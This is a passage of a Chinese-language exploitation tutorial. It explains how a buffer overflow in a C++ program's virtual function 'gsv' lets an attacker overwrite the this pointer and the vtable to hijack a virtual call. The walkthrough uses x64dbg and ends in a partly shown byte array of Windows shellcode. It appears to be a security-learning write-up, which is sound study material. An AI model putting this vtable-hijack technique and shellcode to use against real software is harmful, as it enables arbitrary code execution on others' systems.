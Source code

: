 
我们来看看这个程序：虚函数 gsv 中存在明显的溢出漏洞，通过溢出，我们可以将虚函数表覆盖掉，然后执行我们想要的流程。  
我们知道，超过 200 字节之后，就可以覆盖掉其他参数，我们通过 x64dbg 来看看：

[![](assets/1708919791-e90c869e957752159ee7ca95c1d9ec7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121320-0c9361ae-ce14-1.png)

注意这里我给文本文件中写入了 195 个字节，加上\\x00，就是 196 字节  
我们再来看看程序调用虚函数的过程：

[![](assets/1708919791-ca110aa8b44e14a92df87a07a46ef2d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121331-133d389a-ce14-1.png)

可以看到，这里的`ebp-8`就是函数中，指向 test 对象的指针，也就是 this 指针，获取虚函数指针的步骤为：

1.  取出`ebp-8`的值（this），放入`eax`
2.  从`eax`(this) 中，取出前 4 个字节，为虚表指针，放入`edx`
3.  从虚函数表中`edx`获取前 4 个字节，这 4 个字节就是虚函数`MyFunc`的地址了，放入 eax
4.  `call eax`完成虚函数调用

现在我们要通过溢出，来劫持虚函数，也就是说（对照前面获取虚函数指针的步骤）：

1.  取出`ebp-8`的值，这里存储着我们的==参数的地址==，被当作 this 指针，放入`eax`
2.  从`eax`）中取出 4 字节（实际上指向我们的原始参数），被当作虚函数表，放入`edx`
3.  从`edx`（也就是我们参数的前四个字节），被当作虚函数指针放入`eax`
4.  `call eax`完成调用

现在我们要做的，就是把我们的参数的前四个字节（被当作虚函数执行），改为我们想要执行的地址，然后使用参数覆盖掉`ebp-8`（覆盖为我们原始参数）。  
既然是 call 我们的参数的前 4 个字节，那我们直接将参数前四个字节设置为我们的参数，这样就能够直接 call 我们的 shallcode:

```plain
unsigned char hexData[204] = {
    0xBD, 0xFC, 0x19, 0x00, 0x90, 0x90, 0x90, 0x90,
    0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63,
    0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
    0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7,
    0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2,
    0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
    0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD,
    0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0x05, 0x95,
    0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C,
    0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD, 0x8B, 0x59,
    0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34,
    0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE, 0x06, 0x3A,
    0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0,
    0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24, 0x1C, 0x75,
    0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B,
    0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03, 0xDD, 0x03,
```
